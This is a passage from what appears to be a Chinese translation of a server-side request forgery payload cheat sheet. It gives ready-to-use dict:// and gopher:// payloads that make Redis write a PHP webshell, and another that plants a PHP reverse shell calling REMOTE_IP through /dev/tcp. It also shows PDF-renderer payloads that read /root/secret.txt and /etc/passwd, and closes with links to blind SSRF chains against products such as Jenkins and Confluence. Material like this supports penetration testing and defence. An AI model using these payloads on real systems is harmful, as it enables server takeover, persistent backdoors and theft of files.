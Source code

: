 ## 利用Redis进行SSRF攻击

> Redis是一个将所有内容存储在RAM中的数据库系统

```powershell
# 获取一个webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# 获取一个PHP反向shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```

## 利用PDF文件进行SSRF攻击

![https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png)

示例使用 [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

```powershell
<link rel=attachment href="file:///root/secret.txt">
```

示例使用phantomJS 

```js
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```



文档：## 盲SSRF

> 在利用服务器端请求伪造时，我们经常会发现自己处于无法读取响应的位置。

使用SSRF链来获得带外输出。

来自 https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/ / https://github.com/assetnote/blind-ssrf-chains

**可能通过HTTP(s)**

- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [其他Atlassian产品](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)
- [Jenkins](https://github.com/assetnote/blind-ssrf-chains#jenkins)
- [Hystrix Dashboard](https://github.com/assetnote/blind-ssrf-chains#hystrix)